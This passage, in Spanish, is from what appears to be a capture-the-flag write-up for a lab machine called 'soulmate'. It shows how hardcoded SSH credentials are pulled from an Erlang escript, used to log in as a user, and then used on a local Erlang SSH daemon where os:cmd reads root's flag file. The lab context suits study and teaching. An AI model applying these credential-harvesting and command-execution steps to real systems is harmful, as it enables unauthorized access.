 [ - ]  cryptdisks-early
 [ + ]  dbus
 [ - ]  grub-common
 [ - ]  hwclock.sh
 [ + ]  irqbalance
 [ - ]  iscsid
 [ - ]  keyboard-setup.sh
 [ + ]  kmod
 [ - ]  lvm2
 [ - ]  lvm2-lvmpolld
 [ + ]  networking
 [ + ]  nginx
 [ - ]  open-iscsi
 [ + ]  open-vm-tools
 [ + ]  php8.1-fpm
 [ + ]  plymouth
 [ + ]  plymouth-log
 [ + ]  procps
 [ - ]  rsync
 [ - ]  screen-cleanup
 [ + ]  ssh
 [ + ]  ubuntu-fan
 [ + ]  udev
 [ - ]  uuidd
 [ - ]  x11-common
 </pre>

Con esto ya podemos tener una idea de lo que se esta corriendo en el servidor, pero hay un servicio llamado `erlang_ssh.service` podemos ver mas del servicio con `systemctl status erlang_ssh.service`

<pre>
www-data@soulmate:~$ systemctl status erlang_ssh.service
systemctl status erlang_ssh.service
● erlang_ssh.service - Start Erlang SSH Service
     Loaded: loaded (/etc/systemd/system/erlang_ssh.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2025-10-06 19:03:19 UTC; 7h ago
   Main PID: 1048 (beam.smp)
      Tasks: 21 (limit: 4558)
     Memory: 70.4M
        CPU: 17.283s
     CGroup: /system.slice/erlang_ssh.service
             <strong>├─1048 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/…</strong>
             └─1124 erl_child_setup 1024
</pre>

Navegamos hasta la ruta y listamos los archivos, donde nos encontraremos con `login.escript` y `start.escript`

en `login.escript` no encontraremos nada de valor, pero analizando `start.escript` podemos encontrar:

<pre>
...
{auth_methods, "publickey,password"},
        <strong>{user_passwords, [{"ben", "HouseH0ldings998"}]},</strong> <--- credenciales
        {idle_time, infinity},
        {max_channels, 10},
        {max_sessions, 10},
        {parallel_login, true}
    ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
    end,
...
</pre>

En la misma maquina escribimos `ssh ben@soulmate`, presionamos ENTER e ingresamos la password.

Con el acceso validmos el usuario



Revisamos la ruta, listamos archivos dentro de la carpeta del usuario y capturamos el flag del usuario ben



### Escalacion de privilegios

Ingresamos el comando `sudo -l` para verificar los archivos o comandos a los que tenemos acceso como super usuario



Viendo que no tenemos accesos, verificamos la carpeta root si podemos entrar y nos encontramos con `bash: cd: /root: Permission denied`

Revisando de nuevo el `erlang_ssh.service` vemos que al final del archivo tenemos
<pre>
        {ok, _Pid} ->
            io:format("SSH daemon running on <strong>port 2222</strong>. Press Ctrl+C to exit.~n");
        {error, Reason} ->
</pre>

Donde nos indica que se puede ejecutar por el puerto `2222`, intentamos de manera local con el usuario `ben` hacer el login ingresando con `ssh ben@localhost -p 2222`, ingresamos la password de `ben` y ya estamos dentro.

Con esta nueva shell cambia como podemos acceder a los archivos, buscando en internet encontre que se puede acceder siendo `superuser` con comandos de erlang

Ejemplo:

<pre>
os:cmd("ls").

os     = llamada al modulo de ejecucion.
:      = operador de llamada a funcion del modulo.
cmd    = nombre de la funcion.
("ls") = el argumento de la funcion que ejecutara la funcion.
.      = El punto final es necesario para que erlang interprete como finalizada la sentencia/expresion.
</pre>

Con esto lograremos verificar que erlang funcione y que nos liste los datos de la carpeta donde estamos.

Si obtenemos una salida similar a esta:

<pre>
"bin\nboot\ndev\netc\nhome\nlib\nlib32\nlib64\nlibx32\nlost+found\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"
</pre>

quiere decir que erlang se ejecuta correctamente.

Ejecutamos el comando `os:cmd("ls /root")`
<pre>
Salida: "root.txt\nscripts\n"
</pre>

Ahora ejecutamos el comando `os:cmd("cat /root/root.txt")` y deberiamos tener la flag del usuario root.


> **Recordatorio:** documentar comandos, salidas y autorización es obligatorio. Uso exclusivo en entornos autorizados.
